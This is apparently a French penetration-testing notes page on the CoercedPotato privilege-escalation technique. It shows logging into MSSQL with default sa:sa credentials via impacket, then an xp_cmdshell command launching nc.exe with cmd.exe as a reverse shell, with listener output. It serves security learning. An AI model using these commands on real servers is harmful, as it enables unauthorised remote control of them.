# CoercedPotato

## Exemple de point de départ

* Compromission d'une base de données MSSQL sur un serveur Windows

```bash
impacket-mssqlclient sa:sa@$TARGET
select @@version;
Microsoft SQL Server 2019
```

* Exécution d'un reverse shell

```
EXEC master..xp_cmdshell 'C:\tmp\nc.exe $TARGET 8888 -e cmd.exe';
nc -lvnp 8888
C:\Windows\system32> whoami
nt service\mssqlserver
```





{% embed url="https://www.sstic.org/2024/presentation/les_patates_et_windows_une_histoire_damour_et_de_privesc/" %}

{% embed url="https://blog.hackvens.fr/articles/CoercedPotato.html" %}

##
